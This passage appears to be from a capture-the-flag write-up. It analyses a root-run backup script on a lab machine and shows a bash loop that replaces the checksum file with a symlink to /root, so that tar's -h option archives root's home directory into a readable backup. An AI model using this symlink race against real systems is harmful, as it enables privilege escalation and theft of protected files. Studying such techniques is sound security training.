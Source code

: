 ```bash
tom@epsilon:/tmp$ cat /usr/bin/backup.sh
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d   -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```

This script:
- Removes everything inside /opt/backups.
- Creates a tar archive inside /opt/backups/ with the contents of /var/www/app.
- Creates /opt/backups/checksum which contains the SHA1 hash of the new .tar file.
- Sleeps for five seconds
- Creates a new tar archive in /var/backups/web_backups containing the first archive and the checksum file.
- Remove all files and folders from /opt/backups.


This script uses a lot ```tar```, but the interesting part is the **-h** parameter:
```text
-h, --dereference
	Follow symlinks; archive and dump the files they point to.
```

We have control over **/opt/backups**, so this is the plan:

```bash
while :; do 
	if test -f checksum; then 
		rm -f checksum; 
		ln -s /root checksum; 
		echo "Replaced checksum"; 
		sleep 5; 
		echo "Backup probably done now";
		break;
	fi; 
	sleep 1; 
done
```

We will be checking for the existence of checksum in the current directory. When it does exist, we will remove it and replace it with a sym link to root's directory folder.

This way the script will create a .tar with root's home directory inside /var/backups/web_backups:

```bash
tom@epsilon:/opt/backups$ ./hijack.sh
Replaced checksum
Backup probably done now
tom@epsilon:/opt/backups$ ls -l /var/backups/web_backups
total 79440
-rw-r--r-- 1 root root  1003520 Jul  7 04:00 280773967.tar
-rw-r--r-- 1 root root 80343040 Jul  7 04:01 311618336.tar
```

